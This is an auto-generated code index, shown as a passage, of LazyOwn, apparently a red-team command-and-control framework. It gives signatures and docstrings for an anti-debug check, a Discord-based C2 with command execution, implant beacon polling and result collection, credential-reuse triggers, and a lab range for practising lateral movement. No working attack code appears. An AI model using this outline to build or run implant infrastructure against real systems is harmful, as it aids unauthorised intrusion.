**File Doc:** *Security helpers for LazyOwn — anti-debug, certificate generation.  Extracted from ``utils.py`` to break the giant monolith and keep security-critical code in one auditable location.*

**Functions:**
- `anti_debug` (line 18) `def anti_debug()` - *Check for debugger attachment and exit if found.

Reads ``/proc/self/status`` for ``TracerPid``. If a tracer is
attached and we are not running under a legitimate dev tool
(gdb, strace, ltrace will show), the process exits immediately.

This is called at import time by both ``lazyown.py`` and
``lazyc2.py``.*
- `generate_certificates` (line 58) `def generate_certificates(output_dir)` - *Generate a self-signed CA certificate and key pair.

Creates ``cert.pem`` and ``key.pem`` in the current directory (or
``output_dir`` if specified). Uses OpenSSL with 4096-bit RSA and
a 3650-day validity period.

Args:
    output_dir: Optional directory to write the certificate files
        into. Defaults to the current working directory.

Returns:
    Tuple of ``(cert_path, key_path)`` absolute paths.*

#### `terminal_guard.py`
**Path:** `core/terminal_guard.py`
**File Doc:** *Terminal state guard for interactive automation.  Child processes, curses apps, Rich ``Live`` regions and interrupted prompts can leave a terminal in raw mode, with echo off, mouse reporting on or the alternate screen active. This module snapshots the termios attributes before the loop starts and restores them on exit, atexit and explicit calls, then emits the standard sequences that undo the modes a crashed child may have enabled.*

**Classes:**
- `TerminalGuard` (line 73) `class TerminalGuard` - *Snapshot termios on enter and restore it on every exit path.

Usage::

    with TerminalGuard():
        run_interactive_thing()

The guard is reentrant-safe enough for nested use: each instance
keeps its own snapshot and restores only its own.*

**Functions:**
- `_tty_fd` (line 30) `def _tty_fd()` - *Return a writable tty fd for the process, or None when headless.*
- `emit_restore_sequences` (line 41) `def emit_restore_sequences()` - *Write the mode-reset sequences to the controlling terminal.

A crashed child can leave mouse tracking or the alternate screen on;
those modes are not part of termios, so the bytes go straight to
``/dev/tty`` (or stdout when that is the tty).*
- `apply_stty_sane` (line 62) `def apply_stty_sane()` - *Best-effort ``stty sane`` fallback when termios restore fails.*

**Methods:**
- `__init__` (line 85) `def __init__(self)` - *Prepare an empty guard; the snapshot happens on ``__enter__``.*
- `__enter__` (line 91) `def __enter__(self)` - *Capture current termios attributes when a tty is present.*
- `__exit__` (line 104) `def __exit__(self)` - *Restore the terminal on context exit.*
- `restore` (line 108) `def restore(self)` - *Restore saved termios, then reset extra terminal modes once.*

#### `text_utils.py`
**Path:** `core/text_utils.py`
**File Doc:** *Shared text helpers for terminal surfaces.  Single source of truth for truncating display strings. Replaces eight near-identical ``_truncate`` copies across ``cli/``.*

**Functions:**
- `truncate_text` (line 10) `def truncate_text(value, max_len, marker)` - *Truncate value to max_len using marker.

Args:
    value: Text to truncate. None becomes empty string.
    max_len: Maximum output length including marker.
    marker: Suffix appended when truncation occurs.

Returns:
    Truncated string of at most max_len characters.*

#### `validators.py`
**Path:** `core/validators.py`
**File Doc:** *Input validators for runtime configuration values.  These helpers were historically in ``utils.py`` and are imported by ~280 CLI commands and ~80 C2 routes. They emit a coloured error message to stdout and return ``False`` when the value is missing, so callers can short-circuit without raising.*

**Functions:**
- `check_rhost` (line 26) `def check_rhost(rhost)` - *Return ``True`` if ``rhost`` is set, otherwise print an error and return ``False``.*
- `check_lhost` (line 40) `def check_lhost(lhost)` - *Return ``True`` if ``lhost`` is set, otherwise print an error and return ``False``.*
- `check_lport` (line 54) `def check_lport(lport)` - *Return ``True`` if ``lport`` is set, otherwise print an error and return ``False``.*
- `check_port` (line 64) `def check_port(port, name)` - *Return ``True`` if ``port`` is a valid TCP/UDP port (1-65535).*
- `require_rhost` (line 77) `def require_rhost(params)` - *Gate a command on a valid ``rhost`` looked up from ``params``.

Replaces the ``params['rhost']`` + ``check_rhost`` two-liner with a
single fail-closed call that never raises ``KeyError`` on a
missing key.

Args:
    params: Live params mapping (``self.params`` in CommandSets).

Returns:
    Result of :func:`check_rhost` on the looked-up value.*
- `require_lhost` (line 94) `def require_lhost(params)` - *Gate a command on a valid ``lhost`` looked up from ``params``.

Args:
    params: Live params mapping (``self.params`` in CommandSets).

Returns:
    Result of :func:`check_lhost` on the looked-up value.*
- `require_lport` (line 107) `def require_lport(params)` - *Gate a command on a valid ``lport`` looked up from ``params``.

Args:
    params: Live params mapping (``self.params`` in CommandSets).

Returns:
    Result of :func:`check_lport` on the looked-up value.*
- `require_rport` (line 120) `def require_rport(params)` - *Gate a command on a valid ``rport`` looked up from ``params``.

Args:
    params: Live params mapping (``self.params`` in CommandSets).

Returns:
    Result of :func:`check_port` on the looked-up value.*

#### `traffic-gen.py`
**Path:** `deploy/range/ad-mini/traffic-gen.py`
**File Doc:** *Fake network traffic generator for the AD mini range.  Emits periodic SMB/Kerberos-like TCP probes plus fake user logons so junior operators practice implant deployment and lateral movement against a noisy, legal, fully local background. Targets resolve over the compose network, so no fixed subnet is required.*

**Functions:**
- `_probe` (line 21) `def _probe(host, port)` - *Attempt one short TCP connection, ignoring failures.

Args:
    host: Target hostname on the range network.
    port: Target TCP port.*
- `main` (line 35) `def main()` - *Loop forever emitting fake background traffic.*

#### `discord_c2.py`
**Path:** `discord_c2.py`

**Classes:**
- `SecureSessionManager` (line 27) `class SecureSessionManager`
- `Config` (line 86) `class Config`

**Functions:**
- `load_payload` (line 96) `def load_payload()`
- `on_ready` (line 103) `def on_ready()`
- `start` (line 108) `def start(ctx)`
- `exce_cmd` (line 130) `def exce_cmd(ctx)`
- `add_cli` (line 206) `def add_cli(ctx, new_client_id)`
- `handle_file` (line 216) `def handle_file(ctx)`
- `download_c2` (line 245) `def download_c2(ctx, client_id, file_name)`
- `send_connected_clients` (line 256) `def send_connected_clients(ctx)`
- `clients` (line 273) `def clients(ctx)`
- `addcli` (line 278) `def addcli(ctx, new_client_id)`
- `c2` (line 283) `def c2(ctx)`

**Methods:**
- `__init__` (line 28) `def __init__(self)`
- `register_failed_attempt` (line 33) `def register_failed_attempt(self, user_id)`
- `check_lockout` (line 40) `def check_lockout(self, user_id)`
- `check_rate_limit` (line 49) `def check_rate_limit(self, user_id)`
- `create_session` (line 62) `def create_session(self, user_id, client_id)`
- `validate_session` (line 70) `def validate_session(self, user_id)`
- `__init__` (line 87) `def __init__(self, config_dict)`
- `__getitem__` (line 92) `def __getitem__(self, key)`

#### `key.py`
**Path:** `key.py`

**Functions:**
- `main` (line 10) `def main()`

#### `lazy_sentinel4.py`
**Path:** `lazy_sentinel4.py`

**Classes:**
- `RAGManager` (line 58) `class RAGManager` - *Manages RAG functionality with CAG caching for document processing and querying.*
- `Database` (line 214) `class Database`
- `Alert` (line 271) `class Alert`
- `LazySentinelHandler` (line 302) `class LazySentinelHandler(FileSystemEventHandler)`
- `LazySentinel` (line 340) `class LazySentinel`
- `App` (line 544) `class App(Cmd)`

**Functions:**
- `sanitize_content` (line 47) `def sanitize_content(text)` - *Sanitize text to ensure it's safe for rendering.*

**Methods:**
- `__init__` (line 61) `def __init__(self, model_name, cache_size)`
- `initialize_cache_table` (line 73) `def initialize_cache_table(self)`
- `get_cache_key` (line 85) `def get_cache_key(self, content)`
- `load_existing_vectorstore` (line 88) `def load_existing_vectorstore(self)`
- `ollama_llm` (line 101) `def ollama_llm(self, question, context)`
- `process_file_to_rag` (line 115) `def process_file_to_rag(self, file_path)`
- `query_rag` (line 155) `def query_rag(self, question)`
- `invalidate_cache` (line 177) `def invalidate_cache(self, file_path)`
- `get_knowledge_base_stats` (line 191) `def get_knowledge_base_stats(self)`
- `__init__` (line 215) `def __init__(self, db_path)`
- `initialize` (line 219) `def initialize(self)`
- `execute` (line 243) `def execute(self, query, params)`
- `insert` (line 255) `def insert(self, query, params)`
- `__init__` (line 274) `def __init__(self, alert_type, details, severity)`
- `to_dict` (line 280) `def to_dict(self)`
- `save_to_db` (line 288) `def save_to_db(self, db)`
- `__init__` (line 303) `def __init__(self, lazysentinel)`
- `is_text_file` (line 306) `def is_text_file(self, file_path)`
- `on_created` (line 316) `def on_created(self, event)`
- `on_modified` (line 328) `def on_modified(self, event)`
- `__init__` (line 341) `def __init__(self, app, popup_queue, watch_dir, excluded_files, min_file_size)`
- `chunk_text` (line 361) `def chunk_text(self, text, chunk_size)`
- `select_relevant_chunk` (line 364) `def select_relevant_chunk(self, file_content, chunks)`
- `parse_deepseek_response` (line 378) `def parse_deepseek_response(self, response_text)`
- `show_popup` (line 404) `def show_popup(self, file_name, relevant_info, commands, details)`
- `process_file` (line 422) `def process_file(self, file_path)`
- `stop` (line 538) `def stop(self)`
- `__init__` (line 545) `def __init__(self)`
- `display_toastr` (line 559) `def display_toastr(self, file_name, relevant_info, commands, details, severity, duration)` - *Display a toastr-like notification for file processing alerts.*
- `postcmd` (line 587) `def postcmd(self, stop, line)` - *Check the popup queue after each command and display toastr notifications.*
- `do_quit` (line 611) `def do_quit(self, arg)`
- `do_debug` (line 615) `def do_debug(self, arg)`
- `do_rag_query` (line 624) `def do_rag_query(self, arg)`
- `do_rag_add` (line 632) `def do_rag_add(self, arg)`
- `do_rag_status` (line 647) `def do_rag_status(self, arg)`
- `do_rag_toggle` (line 654) `def do_rag_toggle(self, arg)`
- `do_rag_bulk_add` (line 659) `def do_rag_bulk_add(self, arg)`
- `do_rag_search` (line 678) `def do_rag_search(self, arg)`
- `complete_rag_add` (line 699) `def complete_rag_add(self, text, line, begidx, endidx)`
- `complete_rag_bulk_add` (line 706) `def complete_rag_bulk_add(self, text, line, begidx, endidx)`

#### `__init__.py`
**Path:** `lazyc2/__init__.py`

*No symbols extracted*

#### `addon_creator.py`
**Path:** `lazyc2/addon_creator.py`
**File Doc:** *LazyAddon creator contract for the LazyOwn C2 web interface.  Single source of truth for authoring ``lazyaddons/*.yaml`` files from the ``/addons/create`` form shipped with ``lazyc2.py``. The contract covers the full lifecycle: form parsing, validation, YAML rendering, and safe persistence, so the CLI loader in ``lazyown.py`` can register the resulting file as a first-class shell command.  Contracts: - AddonCreatorConfig: centralised constants and schema options - ParamSpec: immutable value object for one addon parameter - AddonDraft: mutable form state collected by the web layer - ValidationIssue: one field-specific validation finding - AddonValidationError: raised when a draft is not persistable - AddonValidator: pure validation returning field-specific issues - AddonYamlRenderer: renders an AddonDraft as canonical addon YAML - AddonStore: path-safe, atomic persistence inside the addons directory - parse_addon_form: adapts Flask form data into an AddonDraft  Design (SOLID): - Single Responsibility: validation, rendering, and persistence are separate collaborators, each with one reason to change - Open/Closed: new categories, OS values, or triggers extend the config constants without touching behaviour - Liskov: parse_addon_form accepts any Mapping, Flask MultiDict included, and every collaborator is independently replaceable - Interface Segregation: the Flask blueprint consumes only the small public surface below, never internal state - Dependency Inversion: the web layer depends on this contract, never the other way around*

**Classes:**
- `AddonCreatorConfig` (line 71) `class AddonCreatorConfig` - *Centralised constants and schema options for the addon creator.

Every whitelist, pattern, length limit, and default value lives here
so the contract stays data-driven and nothing is hardcoded in the
collaborators below.*
- `ParamSpec` (line 340) `class ParamSpec` - *One addon parameter declared under the ``params`` key.

Attributes:
    name: Placeholder token, must match ``param_name_pattern``.
    type: One of ``param_types``.
    required: Whether the CLI refuses to run without a value.
    description: Short help text shown to the operator.
    default: Optional fallback value applied when payload.json
        does not define the parameter.*
- `AddonDraft` (line 373) `class AddonDraft` - *Complete addon form state collected from the web layer.*
- `ValidationIssue` (line 400) `class ValidationIssue` - *One field-specific validation finding for the form.*
- `AddonValidationError` (line 407) `class AddonValidationError(ValueError)` - *Raised when an AddonDraft cannot be persisted.

Attributes:
    issues: The collected ValidationIssue instances.*
- `AddonValidator` (line 420) `class AddonValidator` - *Pure validation of an AddonDraft against the schema contract.

The validator performs no I/O; name collision checks belong to the
web layer because they require store state.*
- `AddonYamlRenderer` (line 723) `class AddonYamlRenderer` - *Render an AddonDraft as canonical LazyAddon YAML.*
- `AddonStore` (line 808) `class AddonStore` - *Path-safe, atomic persistence for addon files.

Every operation resolves the target path against the addons
directory and re-checks realpath containment before touching the
filesystem. Writes go through a temp file plus ``os.replace`` so a
crashed request can never leave a partial document behind.*

**Functions:**
- `_multi_values` (line 1030) `def _multi_values(form, key)` - *Collect every value for a repeated form key.

Args:
    form: A Mapping that may expose ``getlist`` (Flask MultiDict).
    key: The field name.

Returns:
    String values; empty list when absent.*
- `_first_value` (line 1051) `def _first_value(form, key)` - *Return the first value for a form key or an empty string.

Args:
    form: The form mapping.
    key: The field name.*
- `_parse_bool` (line 1062) `def _parse_bool(value)` - *Interpret a form value as a boolean.

Args:
    value: The raw form string.

Returns:
    True for ``true``/``1``/``on``/``yes`` (case-insensitive),
    False otherwise.*
- `parse_addon_form` (line 1075) `def parse_addon_form(form)` - *Adapt raw form data into an AddonDraft.

Args:
    form: A mapping shaped like ``request.form``. Param rows use
        indexed keys ``params-<i>-name``, ``params-<i>-type``,
        ``params-<i>-required``, ``params-<i>-default``, and
        ``params-<i>-description``.

Returns:
    The populated draft, ready for validation.*
- `_parse_param_rows` (line 1114) `def _parse_param_rows(form)` - *Parse indexed param rows from the form mapping.

Args:
    form: The form mapping carrying ``params-<i>-*`` keys.

Returns:
    ParamSpec instances in index order, skipping rows whose index
    names are absent.*

**Methods:**
- `to_dict` (line 358) `def to_dict(self)` - *Return the param as a schema-ordered mapping.*
- `__init__` (line 414) `def __init__(self, issues)`
- `__init__` (line 427) `def __init__(self, draft, config)` - *Store the draft and configuration used by every check.

Args:
    draft: The form state to validate.
    config: Optional configuration override for tests.*
- `validate` (line 441) `def validate(self)` - *Run every rule and return the collected issues.

Returns:
    A list of ValidationIssue instances, empty when the draft
    is valid.*
- `is_valid` (line 455) `def is_valid(self)` - *Return True when the draft passes every rule.*
- `_check_identity` (line 459) `def _check_identity(self)` - *Validate name, description, author, and version fields.*
- `_check_targeting` (line 503) `def _check_targeting(self)` - *Validate os, category, module/install type, and triggers.*
- `_check_tool` (line 550) `def _check_tool(self)` - *Validate the tool block: URLs, paths, and command placeholders.*
- `_check_params` (line 601) `def _check_params(self)` - *Validate the declared parameter rows.*
- `_check_placeholders` (line 674) `def _check_placeholders(self, text, field)` - *Validate every {token} inside a command template.

Double-brace tokens are rejected explicitly because the CLI
replacement engine only honours single braces; nested forms
otherwise survive extraction as valid-looking tokens.

Args:
    text: The command template to scan.
    field: The form field name used in the issue output.

Returns:
    Issues for unknown or malformed placeholder tokens.*
- `_is_valid_repo_url` (line 714) `def _is_valid_repo_url(value)` - *Return True when value is an absolute http(s) URL with a host.*
- `__init__` (line 726) `def __init__(self, config)` - *Store the configuration used for defaults.

Args:
    config: Optional configuration override for tests.*
- `render` (line 734) `def render(self, draft)` - *Return the YAML document for the draft.

Args:
    draft: The validated form state.

Returns:
    A YAML string ready to be written to ``lazyaddons/<name>.yaml``.*
- `to_document` (line 752) `def to_document(self, draft)` - *Build the schema-ordered document mapping for the draft.

Args:
    draft: The validated form state.

Returns:
    A plain mapping accepted by ``yaml.safe_dump`` and by the
    CLI loader in ``lazyown.register_yaml_plugin``.*
- `_render_tool` (line 782) `def _render_tool(self, draft)` - *Build the tool block, dropping empty optional fields.*
- `__init__` (line 817) `def __init__(self, config, base_dir)` - *Configure the store.

Args:
    config: Optional configuration override for tests.
    base_dir: Optional absolute or relative addons directory.
        Defaults to ``lazyaddons`` below the current directory.*
- `resolve_path` (line 832) `def resolve_path(self, name)` - *Return the safe absolute path for a newly created addon name.

Args:
    name: The addon name (without extension).

Returns:
    The resolved file path inside the addons directory.

Raises:
    AddonValidationError: When the name is not whitelisted or
        the resolved path escapes the addons directory.*
- `resolve_existing_path` (line 847) `def resolve_existing_path(self, name)` - *Return the safe absolute path for an existing addon file.

Pre-existing addons predate the creation whitelist and may use
uppercase letters, dots, or hyphens (for example
``AdaptixC2.yaml`` or ``copy-fail-CVE-2026-31431.yaml``).
Lookups therefore validate against the looser filename pattern
while keeping the same traversal and containment guarantees.

Args:
    name: The addon file stem (without extension).

Returns:
    The resolved file path inside the addons directory.

Raises:
    AddonValidationError: When the name contains path
        separators, traversal sequences, or escapes the addons
        directory.*
- `_resolve_target` (line 869) `def _resolve_target(self, name, pattern)` - *Build and guard a target path for a validated name.

Args:
    name: The addon file stem (without extension).
    pattern: The pattern the name must satisfy.

Returns:
    The resolved, containment-checked file path.

Raises:
    AddonValidationError: When the name fails the pattern or
        the resolved path escapes the addons directory.*
- `exists` (line 891) `def exists(self, name)` - *Return True when an addon file already exists for the name.

Args:
    name: The addon name to probe.*
- `save` (line 902) `def save(self, name, yaml_text)` - *Persist the YAML document atomically.

The temp file is created with the store file mode from the first
byte, so no reader can ever observe a permissive partial document.
The write is flushed and fsynced before ``os.replace`` promotes it
into place, and any failure removes the temp file.

Args:
    name: The addon name (without extension).
    yaml_text: The rendered YAML document.

Returns:
    The written file path.

Raises:
    AddonValidationError: When the name is unsafe.
    OSError: When the write fails.*
- `_atomic_write` (line 926) `def _atomic_write(self, target, text)` - *Write ``text`` to ``target`` through a securely created temp file.

Args:
    target: The final file path inside the addons directory.
    text: The content to persist.

Raises:
    OSError: When the temp file cannot be created, written, or
        promoted.*
- `load` (line 956) `def load(self, name)` - *Return the parsed addon document for a name.

Args:
    name: The addon name (without extension).

Returns:
    The parsed YAML mapping.

Raises:
    AddonValidationError: When the name is unsafe.
    FileNotFoundError: When the addon does not exist.
    yaml.YAMLError: When the file is not valid YAML.
    ValueError: When the document is not a mapping.*
- `delete` (line 979) `def delete(self, name)` - *Delete the addon file for a name.

Args:
    name: The addon name (without extension).

Returns:
    True when the file was removed, False when it did not exist.*
- `list_all` (line 995) `def list_all(self)` - *Return summary dicts for every parseable addon.

Returns:
    A list sorted by display name with keys ``name``
    (declared YAML name), ``filename`` (file stem used by the
    view and delete routes), ``description``, ``category``,
    ``author``, ``os``, and ``enabled``. Broken files are
    skipped so the dashboard keeps working.*

#### `app_factory.py`
**Path:** `lazyc2/app_factory.py`
**File Doc:** *Flask application factory for the LazyOwn C2 server.  Consolidates app creation, security policy initialisation, extension wiring, and blueprint registration. Call :func:`create_app` to get a fully-wired :class:`Flask` instance instead of relying on the monolithic ``lazyc2.py`` module-level globals.  Usage::  from lazyc2.app_factory import create_app app = create_app() app.run()*

**Functions:**
- `_load_payload_config` (line 33) `def _load_payload_config()` - *Load ``payload.json`` and return its contents.*
- `_build_api_key_store` (line 42) `def _build_api_key_store(payload)` - *Build the tenant-scoped API key store from payload configuration.

Args:
    payload: ``payload.json`` contents. ``api_keys_path`` overrides
        the default store location when present.

Returns:
    A configured :class:`core.api_authz.ApiKeyStore`.*
- `_load_or_create_secret_key` (line 61) `def _load_or_create_secret_key(sessions_dir)` - *Resolve the Flask secret key from env or disk.*
- `_make_security_config` (line 75) `def _make_security_config(payload)` - *Build a simple namespace-style config object from payload settings.*
- `create_app` (line 89) `def create_app()` - *Create and return a fully configured C2 Flask application.

Returns:
    A :class:`Flask` instance ready to run or serve via WSGI.*
- `_handle_404` (line 152) `def _handle_404(_error)`
- `_handle_405` (line 156) `def _handle_405(_error)`
- `_handle_exception` (line 160) `def _handle_exception(error)`
- `_add_security_headers` (line 167) `def _add_security_headers(response)`

#### `__init__.py`
**Path:** `lazyc2/blueprints/__init__.py`
**File Doc:** *Flask Blueprints for lazydown C2.  Each blueprint owns a domain area of the C2 web interface. Registered in :func:`lazyc2.app_factory.create_app`.*

*No symbols extracted*

#### `addons.py`
**Path:** `lazyc2/blueprints/addons.py`
**File Doc:** *LazyAddon creator blueprint for the C2 dashboard.  Exposes the addon lifecycle under ``/addons``: a list page, the guided creation form (GET and POST), a rendered YAML preview page, and a delete endpoint. All mutating routes enforce the per-session CSRF token issued on the form page.  Design (SOLID): - Single Responsibility: this module only adapts HTTP requests to the ``lazyc2.addon_creator`` contract and templates - Open/Closed: new pages reuse the same store and policy helpers - Liskov: every route returns plain Flask responses like the rest of the dashboard - Interface Segregation: small helpers, no shared mutable globals - Dependency Inversion: depends on the addon creator contract, never on the ``lazyc2.py`` monolith internals*

**Functions:**
- `init_addons_bp` (line 66) `def init_addons_bp(base_dir)` - *Configure the blueprint state before registration.

Args:
    base_dir: Optional addons directory override. When omitted the
        value stored on the app config under ``LAZYOWN_ADDONS_DIR``
        or the contract default is used.*
- `_store` (line 78) `def _store()` - *Return an AddonStore bound to the configured addons directory.*
- `_csrf_policy` (line 84) `def _csrf_policy()` - *Return the app-scoped CSRF policy for addon mutation routes.*
- `csrf_protect` (line 93) `def csrf_protect(view)` - *Decorate a view so mutating requests must echo the CSRF token.

Safe methods pass through untouched; unsafe methods must present a
token bound to the stable client cookie issued on the form page.

Args:
    view: The Flask view function to wrap.

Returns:
    The wrapped view returning 403 JSON when the token is invalid.*
- `_issue_csrf` (line 117) `def _issue_csrf(response, policy)` - *Bind a CSRF token to a stable client cookie and expose it.

The cookie carries a random client identifier that never changes
between requests, unlike the Flask session cookie which is re-signed
whenever flash messages are consumed. The token itself stays in the
policy store and travels inside the form.

Args:
    response: The outgoing response that receives the cookie.
    policy: The policy issuing the token.

Returns:
    The token string to embed in the form.*
- `_issue_map` (line 146) `def _issue_map(issues)` - *Group validation issues by field for template rendering.

Args:
    issues: The flat list of ValidationIssue instances.

Returns:
    A mapping of field name to message list.*
- `_form_context` (line 161) `def _form_context(draft, issues)` - *Build the template context shared by the form renders.

Args:
    draft: The current form state.
    issues: Validation findings to surface per field.

Returns:
    The context dict consumed by ``addon_creator.html``.*
- `_render_create` (line 190) `def _render_create(draft, issues)` - *Render the creation form with a fresh CSRF token.

Args:
    draft: The current form state.
    issues: Validation findings to surface per field.

Returns:
    The rendered form response with the CSRF cookie set.*
- `_draft_from_document` (line 213) `def _draft_from_document(document)` - *Convert a persisted document back into a renderable draft.

Args:
    document: The parsed addon mapping.

Returns:
    A draft whose YAML rendering is canonical.*
- `list_addons` (line 260) `def list_addons()` - *Render the addon dashboard list page with a fresh CSRF token.*
- `create_addon` (line 274) `def create_addon()` - *Render the creation form and persist valid addon submissions.

Returns:
    On GET the guided form. On POST either the re-rendered form
    with per-field errors or a redirect to the YAML preview.*
- `view_addon` (line 317) `def view_addon(name)` - *Render the persisted YAML document for an addon.

Args:
    name: The addon name to preview.

Returns:
    The preview page or a redirect to the list when missing.*
- `delete_addon` (line 341) `def delete_addon(name)` - *Delete an addon file.

Args:
    name: The addon name to remove.

Returns:
    A redirect to the list page with a status flash.*
- `wrapper` (line 107) `def wrapper()`

#### `api.py`
**Path:** `lazyc2/blueprints/api.py`
**File Doc:** *API blueprint for the LazyOwn C2 server.  Provides REST endpoints for health checks, command execution, output retrieval, and dashboard data. Registered under the ``/api`` prefix.  Every endpoint that mutates state or reads sensitive data requires tenant-bound API authorization via ``core.api_authz.require_api_auth``.*

**Classes:**
- `HealthConfig` (line 25) `class HealthConfig` - *Configuration for the health-check subsystem.*

**Functions:**
- `_health_status` (line 36) `def _health_status(config)` - *Collect health metrics for all critical subsystems.

Args:
    config: Optional health-check configuration.

Returns:
    A dict with ``status``, ``timestamp``, ``uptime``, and
    per-component status entries.*
- `_listener_alive` (line 99) `def _listener_alive(listener)` - *Check whether a listener instance is alive.*
- `health` (line 108) `def health()` - *Health-check endpoint returning subsystem status.

Returns:
    200 with JSON containing status of database, listeners,
    beacons, uptime, and an overall ``status`` field
    (``healthy``, ``degraded``, or ``unhealthy``).*
- `ping` (line 120) `def ping()` - *Lightweight liveness probe.

Returns:
    200 with ``{"status": "ok"}``.*
- `require_api_auth_with_store` (line 129) `def require_api_auth_with_store(view)` - *Protect a view with the app-scoped API key store.

Resolves the store from the Flask app config at request time so the
route stays decoupled from application construction order.

Args:
    view: The Flask view function to protect.

Returns:
    The view wrapped by :func:`core.api_authz.require_api_auth`.*
- `health_tenant` (line 157) `def health_tenant()` - *Health-check scoped to the current authenticated tenant.

Requires a valid API key bound to a tenant. Returns tenant-scoped
metrics in addition to the standard health data.

Returns:
    200 with health data plus ``tenant_id`` and tenant-scoped
    beacon/listener counts. 401 when the API key is missing or
    invalid, 403 when the key is not tenant-scoped.*
- `get_defaults` (line 182) `def get_defaults()` - *Return build-time defaults alongside live payload values.

Mirrors the ``defaults show`` CLI command for the web GUI.

Returns:
    200 with ``{"defaults": {...}, "live": {...}}``.*
- `set_default` (line 211) `def set_default()` - *Persist a per-engagement override for a build default.

Mirrors ``defaults set <name> <value>`` for the web GUI. Only
``wordlist``, ``lport`` and ``rport`` are overridable, and values
land in ``payload.json`` through the canonical writer; the TOML
file is never rewritten.

Returns:
    200 with the stored ``{name, value}``. 400 on bad input,
    401/403 on auth failures.*
- `guarded` (line 146) `def guarded()`

#### `api_v1.py`
**Path:** `lazyc2/blueprints/api_v1.py`
**File Doc:** *Versioned REST API (``/api/v1``) for the LazyOwn C2 server.  Programmatic interface for SIEM/SOAR integration, custom dashboards, and CI/CD pipelines. Every endpoint except ``/health`` requires a tenant-bound API key (``X-API-Key`` header, see ``core.api_authz``).  Endpoints:  - ``GET /api/v1/health`` — public service status. - ``GET /api/v1/targets`` — hosts in scope from the campaign database. - ``GET /api/v1/results`` — beacon task results, optionally per client. - ``GET /api/v1/campaigns`` — autonomous campaign/objective status. - ``GET /api/v1/webhooks`` — registered result webhooks. - ``POST /api/v1/webhooks`` — register a result webhook URL. - ``DELETE /api/v1/webhooks/<index>`` — remove a registered webhook.*

**Functions:**
- `_sessions_dir` (line 38) `def _sessions_dir()` - *Return the sessions directory configured on the Flask app.*
- `_db` (line 43) `def _db()` - *Return a campaign database handle, or ``None`` when unavailable.*
- `_error` (line 60) `def _error(message, status)`
- `health` (line 65) `def health()` - *Public service status (same payload as ``/api/health``).

Returns:
    200 with subsystem status, uptime, and an overall status field.*
- `targets` (line 76) `def targets()` - *List in-scope hosts from the campaign database.

Query args:
    workspace: Workspace name (default ``"default"``).

Returns:
    200 with the workspace name and its hosts (each with services).
    503 when the campaign database is unavailable.*
- `results` (line 108) `def results()` - *Return beacon task results.

Query args:
    client_id: When given, only that beacon's history. Otherwise the
        latest record per known beacon plus the client id list.

Returns:
    200 with records (oldest first per beacon).*
- `campaigns` (line 141) `def campaigns()` - *Report autonomous campaign status from operational state files.

Returns:
    200 with the current kill-chain phase (world model, when present)
    and pending objective counts. State files are best-effort: missing
    files yield empty sections, never errors.*
- `_webhooks_path` (line 166) `def _webhooks_path()`
- `_read_webhooks` (line 170) `def _read_webhooks()`
- `webhooks_list` (line 180) `def webhooks_list()` - *List registered result webhooks.

Returns:
    200 with the webhook list (URL + event filter each).*
- `webhooks_register` (line 191) `def webhooks_register()` - *Register a result webhook URL.

Body (JSON): ``{"url": "https://...", "events": ["results"]}``.
The URL must be http(s); anything else is rejected.

Returns:
    201 with the stored entry and its index. 400 on bad input.*
- `webhooks_delete` (line 228) `def webhooks_delete(index)` - *Remove a registered webhook by index.

Returns:
    200 with the removed entry. 404 when the index does not exist.*

#### `auth.py`
**Path:** `lazyc2/blueprints/auth.py`
**File Doc:** *Authentication and authorisation blueprint for the LazyOwn C2 server.  Login, logout, registration, MFA setup/verification, profile, and admin user/tenant management routes. Registered from within ``lazyc2.py`` so that ``url_for('index')`` and other lazyc2.py routes are available.*

**Functions:**
- `_rbac_available` (line 51) `def _rbac_available()` - *Check if RBAC is available from app config.*
- `_get_rbac_store` (line 56) `def _get_rbac_store()` - *Resolve the RBAC store from the C2 monolith.*
- `_get_rbac_user_obj` (line 68) `def _get_rbac_user_obj(flask_user)` - *Resolve the RBAC user object for a Flask-Login user.*
- `_get_tenant_manager` (line 78) `def _get_tenant_manager()` - *Resolve the tenant manager from the C2 monolith.*
- `register` (line 92) `def register()`
- `login` (line 151) `def login()`
- `mfa_setup` (line 196) `def mfa_setup()`
- `mfa_qr` (line 269) `def mfa_qr(username)`
- `mfa_verify` (line 291) `def mfa_verify()`
- `profile` (line 335) `def profile()`
- `logout` (line 360) `def logout()`
- `admin_users` (line 379) `def admin_users()`
- `admin_set_role` (line 396) `def admin_set_role(user_id)`
- `admin_reset_mfa` (line 418) `def admin_reset_mfa(user_id)`
- `admin_delete_user` (line 430) `def admin_delete_user(user_id)`
- `admin_tenants` (line 448) `def admin_tenants()`
- `admin_create_tenant` (line 468) `def admin_create_tenant()`
- `admin_switch_tenant` (line 486) `def admin_switch_tenant(tenant_id)`
- `require_role` (line 33) `def require_role(role)` - *Return a pass-through decorator when RBAC is unavailable.

Args:
    role: The required role name, ignored in the fallback.

Returns:
    A decorator that returns the wrapped view unchanged.*

#### `beacon.py`
**Path:** `lazyc2/blueprints/beacon.py`
**File Doc:** *Beacon communication blueprint for the LazyOwn C2 server.  Handles implant polling, command delivery, result collection, file transfer, and beacon lifecycle events. Integrates the conditional hooks engine so operator-defined automation rules fire on beacon connection/disconnection.  Registered from ``lazyc2.py`` without a prefix so the existing malleable routes (``/command``, ``/upload``, etc.) stay at their original paths.*

**Functions:**
- `init_beacon_bp` (line 35) `def init_beacon_bp(commands, results, commands_history, connected_clients, encrypt_fn, decrypt_fn, config, sessions_dir, route_malleable)` - *Wire the blueprint to the C2 monolith's shared state.

Args:
    commands: Shared command queue dict.
    results: Shared results dict.
    commands_history: Shared command history dict.
    connected_clients: Shared connected clients set.
    encrypt_fn: AES encrypt callable.
    decrypt_fn: AES decrypt callable.
    config: LazyOwn Config instance.
    sessions_dir: Path to sessions directory.
    route_malleable: Malleable C2 route prefix.*
- `_fire_hooks` (line 72) `def _fire_hooks(event, context)` - *Fire conditional hooks for a beacon lifecycle event.*
- `_trigger_cred_reuse` (line 91) `def _trigger_cred_reuse(context)` - *Trigger credential reuse analysis in background.*
- `send_command` (line 111) `def send_command(client_id)` - *Implant polls for the next encrypted command.*
- `receive_result` (line 131) `def receive_result(client_id)` - *Implant reports command output.*
- `issue_command` (line 245) `def issue_command()` - *Operator queues a command for a connected implant.*
- `_run` (line 97) `def _run()`

#### `operations.py`
**Path:** `lazyc2/blueprints/operations.py`
**File Doc:** *Operations blueprint — tasks, CVEs, notes, and event management.  CRUD endpoints for the C2 operator's daily workflow. Registered under no prefix in :func:`lazyc2.app_factory.create_app`.*

**Functions:**
